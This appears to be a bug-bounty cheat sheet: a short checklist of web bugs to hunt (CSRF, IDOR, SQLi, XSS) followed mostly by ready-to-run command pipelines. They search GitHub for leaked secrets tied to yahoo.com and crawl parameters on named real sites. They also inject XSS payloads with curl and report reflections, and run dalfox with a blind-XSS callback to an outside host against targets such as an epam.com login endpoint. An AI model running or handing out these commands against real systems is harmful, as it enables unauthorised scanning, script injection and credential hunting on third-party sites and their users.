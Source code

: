- python3 gitGraber.py -k keywordsfile.txt -q \"yahoo.com\" -s -w mywordlist.txt


- GitHound


__________________________________________________________________________________________________

## Check-list :- Manual Hunting inside websites for :-

1- CSRF
2- IDORS
3- Bussiness Logic Vulnerbilities
4- API bugs 
5- SQLi
6- XSS

__________________________________________________________________________________________________


## XSS :-

- Paramspider :- 

- python3 paramspider.py --domain indrive.com

- python3 paramspider.py --domain https://www.vendasta.com --exclude woff,css,png,svg,jpg --output t.txt

- cat indrive.txt | kxss  ( looking for reflected :-  "<> )


cat output/t.txt | egrep -iv ".(jpg|jpeg|js|css|gif|tif|tiff|png|woff|woff2|ico|pdf|svg|txt)" | qsreplace '"><()'| tee combinedfuzz.json && cat combinedfuzz.json | while read host do ; do curl --silent --path-as-is --insecure "$host" | grep -qs "\"><()" && echo -e "$host \033[91m Vullnerable \e[0m \n" || echo -e "$host  \033[92m Not Vulnerable \e[0m \n"; done | tee XSS.txt



cat params.txt | Gxss -c 100 -p Xss | sort -u | dalfox pipe


echo "pintu.co.id" | waybackurls | httpx -silent | Gxss -c 100 -p Xss | sort -u | dalfox pipe




- waybackurls youneedabudget.com | gf xss | grep '=' | qsreplace '"><script>confirm(1)</script>' | while read host do ; do curl --silent --path-as-is --insecure "$host" | grep -qs "<script>confirm(1)" && echo "$host \033[0;31mVulnerable\n";done


- dalfox url https://access.epam.com/auth/realms/plusx/protocol/openid-connect/auth?response_type=code -b https://hahwul.xss.ht
 
- dalfox file urls.txt -b https://hahwul.xss.ht

  

- echo "https://target.com/some.php?first=hello&last=world" | Gxss -c 100

- cat urls.txt | Gxss -c 100 -p XssReflected
